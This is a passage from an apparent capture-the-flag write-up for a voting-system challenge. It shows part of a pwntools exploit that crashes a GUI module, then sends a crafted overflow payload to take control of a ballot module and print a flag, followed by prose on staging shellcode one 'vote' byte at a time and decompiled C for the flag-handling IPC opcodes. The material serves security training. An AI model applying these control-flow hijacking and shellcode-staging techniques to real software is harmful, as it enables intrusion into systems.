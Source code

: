 ```python=
#""")

p.recvuntil("Submit")

print("here we go")
print(hex(pemptr))


p.send("\x0a")
p.send("\x0a")

# these are encodings for terminal contrl codes
p.send_raw("\33OB") # DOWN
p.send("\x0a")
p.send("\x0a")
p.send_raw("\33OB") # DOWN
p.send("\x0a")

p.recvuntil("STDIN")
p.recvline()
# gui_module crashed, we can we can now send raw ipc

# get pc inside balloT_module
payload = "\xff" + cyclic(24) + "\x00"*8
payload += p64(0x500000)
payload += p64(0x500741)*8 # one of these will be pc ;)
payload = payload.ljust(100, "A")
p.send(payload)

p.recvuntil("Here is your flag")
print(p.recvuntil("}"))
p.recvall()
```

```flag: flag{in rwx no one can hear you scream}```

## Part 2

After some finagling in part 1, we obtain execution in the context of `ballot_module`. And, even though I actually ropped in the first part, we can get full shellcode execution without any extra work in this stage simply by casting each byte of shellcode as a vote. In `process_ipc_data` above, it will store whatever byte you pass it in your message into a global array and then increment the dest ptr.

We do have to send each part 1 byte at a time though, so I wrote a quick stager shellcode to make an IPC request for a larger chunk of bytes to then jump to. Progress!

From here, we can examine the code required to make an IPC call to retrieve the second flag:

```c=
if ( opcode == 1337 ) /* first flag */
{
  stream = fopen("flag1.txt", "r");
  fgets(&s, 64, stream);
  fclose(stream);
  printf("\x1B[92m[Module %u] Here is your flag #1: %s\n\x1B[0m", a1->pid, &s);
}
else if ( opcode == 31337 ) /* second flag */
{
  if ( a1->flags & 1 )
  {
    v4 = fopen("flag2.txt", "r");
    fgets(&s, 64, v4);
    fclose(v4);
```